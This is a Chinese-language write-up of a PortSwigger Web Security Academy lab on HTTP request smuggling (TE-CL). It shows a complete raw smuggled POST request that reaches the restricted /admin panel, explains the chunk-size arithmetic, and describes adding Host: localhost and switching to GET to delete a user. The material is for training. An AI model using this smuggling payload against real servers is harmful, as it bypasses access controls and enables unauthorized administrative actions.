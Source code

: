 #### TE-CL绕过前端服务器安全控制

同上面实验相反，前端服务器识别`Transfer-Encoding`，后端服务器识别`Content-Length`

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

**实验描述**

本实验包含一个前端和后端服务器，后端服务器不支持`Transfer-Encoding`分块传输。现有一个管理员面板/admin，但被限制直接访问。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

构造走私请求，这里构造请求同上面实验有些差别

```bash
POST / HTTP/1.1
Host: acc11f291f28854680882dae00df00bf.web-security-academy.net
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=DHsv0QPpKqKpsxRdjanyv0OdA5CUY9cn
Content-Length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0

```

构造请求，提示需要添加`Host:localhost`

(images/15905478983458.png)


如果对此处请求体构造有疑问可以查看chunk传输数据的格式

> chunk传输数据格式如下，其中size的值由16进制表示。
> 
> ```
> >[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0[\r\n][\r\n]]
> >
> 
> ```

因而这里60对应的十进制是：96。恰好等于60以下到0以上数据的长度（包括\r\n）

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。

(images/15905479073647.png)


添加`Host:localhost`并修改数据块长度后重新发包

(images/15905479186221.png)


修改走私请求为GET方式，多次发送最终成功删除用户。

(images/15905479256682.png)


